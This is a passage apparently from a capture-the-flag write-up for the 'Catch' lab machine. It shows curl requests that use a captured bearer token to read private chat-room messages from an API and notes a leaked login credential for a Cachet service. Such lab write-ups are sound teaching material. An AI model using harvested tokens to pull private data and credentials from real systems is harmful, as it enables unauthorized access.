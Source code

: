 ```bash
    "owner": "61b86aead984e2451036eb16",
    "room": "61b86b3fd984e2451036eb18"
  },
  {
    "id": "61b86e5dfe190b466d476bf3",
    "text": "Thanks John! Glad to be part of the Catch ",
    "posted": "2021-12-14T10:13:49.568Z",
    "owner": "61b86e40fe190b466d476bf2",
    "room": "61b86b3fd984e2451036eb18"
  },
  {
    "id": "61b86e12fe190b466d476bf1",
    "text": "Welcome Will!",
    "posted": "2021-12-14T10:12:34.388Z",
    "owner": "61b86dbdfe190b466d476bf0",
    "room": "61b86b3fd984e2451036eb18"
  },
  {
    "id": "61b86d5ffe190b466d476bef",
    "text": "Join me in welcoming our new employee Will Robinson who's working as iOS Developer with John Team",
    "posted": "2021-12-14T10:09:35.597Z",
    "owner": "61b86aead984e2451036eb16",
    "room": "61b86b3fd984e2451036eb18"
  }
]
```

"Android Development"

```bash
$ curl -s http://catch.htb:5000/rooms/61b8708efe190b466d476bfb/messages -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' | jq '.'
[
  {
    "id": "61b870d5fe190b466d476bfc",
    "text": "Hey Team, Just heads up that we're working on android app to alert our customers about status of the services. ",
    "posted": "2021-12-14T10:24:21.145Z",
    "owner": "61b86aead984e2451036eb16",
    "room": "61b8708efe190b466d476bfb"
  }
]
```

The "Cachet Updates and Maintenance" room discloses a credential to Catch's Catchet instance: `john`:`E}V!mywu_69T4C}W`.

```bash
$ curl -s http://catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' | jq '.'
[
  {
    "id": "61b8732cfe190b466d476c02",
    "text": "ah sure!",
    "posted": "2021-12-14T10:34:20.749Z",
    "owner": "61b86dbdfe190b466d476bf0",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b8731ffe190b466d476c01",
    "text": "You should actually include this task to your list as well as a part of quarterly audit",
```